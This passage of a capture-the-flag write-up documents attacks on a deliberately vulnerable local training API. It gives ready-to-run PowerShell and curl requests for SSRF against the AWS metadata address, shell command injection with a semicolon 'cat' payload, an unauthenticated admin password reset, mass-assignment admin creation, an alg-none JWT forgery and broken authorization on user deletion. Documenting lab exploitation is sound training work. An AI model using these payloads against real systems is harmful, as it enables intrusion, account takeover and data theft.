Flag 15: Docker source only in the supplied evidence\.



**Traversal simulation and nearby SSRF handler in server\.js**

## The webhook cloud\-metadata check was also simulated

In the same source excerpt, POST /api/v1/webhooks/ping compared url against the AWS metadata address and returned a mocked IAM role string with FLAG\{ssrf\_cl0ud\_m3t4d4t4\} \(Flag 16\)\. I prepared the PowerShell request, but did not capture its HTTP response\. No outbound metadata request was established\. The code illustrates an SSRF scenario through server\-side URL selection, but the actual lab handler was a fixed\-string simulation\.

```
$body = @{url='http://169.254.169.254/latest/meta-data/'} | ConvertTo-Json
Invoke-RestMethod -Uri 'http://localhost:3000/api/v1/webhooks/ping' -Method Post -Headers @{Authorization="Bearer $token"} -ContentType 'application/json' -Body $body

```

Flag 16: Docker source, no recorded API response\.


**Source comparison against the AWS instance\-metadata URL**

## The ping POST passed input straight to a shell

The POST handler built exec\(\`ping \-c 1 $\{ip\}\`\) from the request body\. The source comment pointed to /tmp/flag20\_rce\.txt\. Before demonstrating exploitation over HTTP, I read that file directly using Docker administrator access and obtained FLAG\{rce\_c0mm4nd\_1nj3ct10n\_w1n\} \(Flag 20\)\. I then prepared a semicolon\-based injection payload with cat, but there is no captured API response to the POST\. The handler exposes a genuine shell command injection sink; the observed flag retrieval was a Docker file read, not proof of remote command execution through the API\.

```
docker exec certified-offensive-api-pentester-coap--coap-api-1 sed -n '234,260p' /usr/src/app/server.js
docker exec certified-offensive-api-pentester-coap--coap-api-1 cat /tmp/flag20_rce.txt
$body = @{ip='127.0.0.1; cat /tmp/flag20_rce.txt'} | ConvertTo-Json
Invoke-RestMethod -Uri 'http://localhost:3000/api/v1/admin/system/ping' -Method Post -Headers @{Authorization="Bearer $adminToken"} -ContentType 'application/json' -Body $body

```

Flag 20: Docker file read; API RCE payload was formulated but no HTTP output was supplied\.



**Unsanitized ip inserted into a shell exec call**



**Docker cat returned the final RCE flag file**

## The password reset handler skipped prior authentication

The /api/v1/auth/reset\-password handler accepted username and new\_password, found the account, and assigned a new password without requiring the old password or an authorization token\. Docker source contained FLAG\{br0k3n\_4uth\_r3s3t\} \(Flag 17\)\. I prepared a request targeting the administrator account, but the provided evidence stops at source inspection\. I cannot claim the HTTP password reset actually executed\.

```
docker exec certified-offensive-api-pentester-coap--coap-api-1 sed -n '98,120p' /usr/src/app/server.js
$body = @{username='admin';new_password='COAP_Test_2026!'} | ConvertTo-Json
Invoke-RestMethod -Uri 'http://localhost:3000/api/v1/auth/reset-password' -Method Post -ContentType 'application/json' -Body $body

```

Flag 17: Docker source confirmed, runtime response unverified\.



**Password reset implementation has no prior\-password or authorization check**

## Mass assignment actually created an elevated account

The registration handler took role directly from req\.body\. I submitted username coap\_test\_admin, password TestPassword123\!, and role admin\. The API returned success True and FLAG\{m4ss\_4ss1gnm3nt\_4dm1n\} \(Flag 10\)\. This result was captured live, not inferred solely from source code\. The flaw was privileged role assignment from untrusted JSON input\.

```
docker exec certified-offensive-api-pentester-coap--coap-api-1 sed -n '147,165p' /usr/src/app/server.js
$body = @{username='coap_test_admin';password='TestPassword123!';role='admin'} | ConvertTo-Json
Invoke-RestMethod -Uri 'http://localhost:3000/api/v1/users/register' -Method Post -ContentType 'application/json' -Body $body

```

Flag 10: live API registration response\.



**Role mass assignment source plus successful registration response**

## A user token could call an administrative delete function

The same source inspection exposed DELETE /api/v1/users/:id with its intended administrator role check commented out\. I later sent a request to /api/v1/users/4 using the intern token\. The API returned success True, User deleted, and FLAG\{bfl4\_us3r\_d3l3t10n\} \(Flag 11\)\. The live response demonstrated broken function\-level authorization \(BFLA\)\. However, the visible handler only returned JSON, so the response alone did not prove that an account record had been removed\.

```
Invoke-RestMethod -Uri 'http://localhost:3000/api/v1/users/4' -Method Delete -Headers @{Authorization="Bearer $token"}

```

Flag 11: live API response\.



**Intern\-role DELETE returned a success message and Flag 11**

## The bulk export handler exposed the full user collection in source

The GET /api/v1/admin/export\_users handler was written to return the users collection with FLAG\{m4ss\_d4t4\_3xp0sur3\} \(Flag 12\)\. I located that behavior in Docker source and prepared a GET request using the forged administrator token, but there is no captured API response\. The issue is excessive data exposure through the bulk export handler, made more consequential by the JWT weaknesses documented earlier\.

```
Invoke-RestMethod -Uri 'http://localhost:3000/api/v1/admin/export_users' -Method Get -Headers @{Authorization="Bearer $adminToken"}

```

Flag 12: Docker source only; API response not supplied\.



**Source grep enumerates embedded flag values, including the user export**

## The wallet deposit handler did not properly validate amounts

The wallet deposit handler in server\.js compared an amount and returned new\_balance directly from that amount\. The source included FLAG\{b4l4nc3\_l0g1c\_fl4w\_w34lth\} \(Flag 14\)\. I prepared a POST with a very large amount, but no HTTP response was captured\. The lab’s code comment also mentioned negative amounts\. Without a before and after state comparison, I cannot claim a balance was actually modified\. The code demonstrates missing amount bounds and financial business rule validation\.

```
docker exec certified-offensive-api-pentester-coap--coap-api-1 sed -n '194,205p' /usr/src/app/server.js
$body = @{amount=999999999} | ConvertTo-Json
Invoke-RestMethod -Uri 'http://localhost:3000/api/v1/wallet/deposit' -Method Post -Headers @{Authorization="Bearer $token"} -ContentType 'application/json' -Body $body

```

Flag 14: Docker source, no captured API response\.


**Flag inventory and business\-logic source lines**

## The unsigned JWT bypass worked, but it initially returned the wrong flag

I built a token with alg none, administrator claims, and an empty signature\. The authentication middleware accepted it and the vault returned Flag 8 again\. The bypass worked, but the intended Flag 9 had not been retrieved\. My first source grep for 'Flag 9' returned nothing because the comment used uppercase FLAG\. A case\-insensitive search exposed an unusual vault branch that checked the raw Authorization header for the literal bm9uZQ, Base64 for none\. I appended that marker after the unsigned token\. The middleware parsed the token, while the vault recognized the marker and returned FLAG\{jwt\_n0n3\_4lg0\_byp4ss\} \(Flag 9\)\. This was a live API authentication bypass accompanied by brittle header string matching in the flag route\.

```
$header='{"alg":"none","typ":"JWT"}'
$payload='{"id":1,"username":"admin","role":"admin"}'
$h=ConvertTo-Base64Url ([Text.Encoding]::UTF8.GetBytes($header))
$p=ConvertTo-Base64Url ([Text.Encoding]::UTF8.GetBytes($payload))
$noneToken="$h.$p."
Invoke-RestMethod -Uri 'http://localhost:3000/api/v1/admin/vault' -Method Get -Headers @{Authorization="Bearer $noneToken"}
# Returned Flag 8, not Flag 9
docker exec certified-offensive-api-pentester-coap--coap-api-1 grep -ni -C 5 'flag 9' /usr/src/app/server.js
docker exec certified-offensive-api-pentester-coap--coap-api-1 sh -c "grep -nEi 'flag|none|vault' /usr/src/app/server.js"
Invoke-RestMethod -Uri 'http://localhost:3000/api/v1/admin/vault' -Method Get -Headers @{Authorization="Bearer $noneToken bm9uZQ"}

```

Flag 9: live API, after the extra raw\-header marker\. The earlier unsigned token had already bypassed validation\.



**Unsigned JWT accepted, but the first vault response still contained Flag 8**


**Source search exposed the raw\-header bm9uZQ flag\-selection check**



**Adjusted Authorization header returned Flag 9 live**

## OPTIONS revealed an exposed debug header

Near the end, I tested OPTIONS on /api/v1/users rather than the invalid /transfers path from earlier\. It returned HTTP 200, Allow: GET, POST, OPTIONS, DELETE, and X\-Debug\-Flag: FLAG\{0pt10ns\_v3rb\_t4mp3r1ng\} \(Flag 4\)\. This was an unauthenticated response header disclosure observed directly through the API\.

```
curl.exe -i -X OPTIONS 'http://localhost:3000/api/v1/users' 

```

Flag 4: live API response header\.



**OPTIONS response lists methods and leaks X\-Debug\-Flag**

## What stood out

The initial break was not a complicated exploit\. The root and documentation routes pointed me toward useful endpoints and exposed working credentials\. I recovered the predictable JWT signing secret offline, forged administrator claims, and also demonstrated acceptance of an unsigned token\. Those failures opened paths that should have required stronger authentication\. The transfer and user handlers lacked necessary access control, while registration trusted a client\-supplied administrator role\. Diagnostic routes exposed information that ordinary clients did not need, and the ping handler constructed a shell command from supplied input\. Docker source inspection sped up the investigation, but it changed the evidence type\. Live API responses, source\-confirmed conditions, and direct Docker file reads are distinct\. Hardcoded simulation responses do not prove real database queries, cloud metadata access, or successful API command execution\.


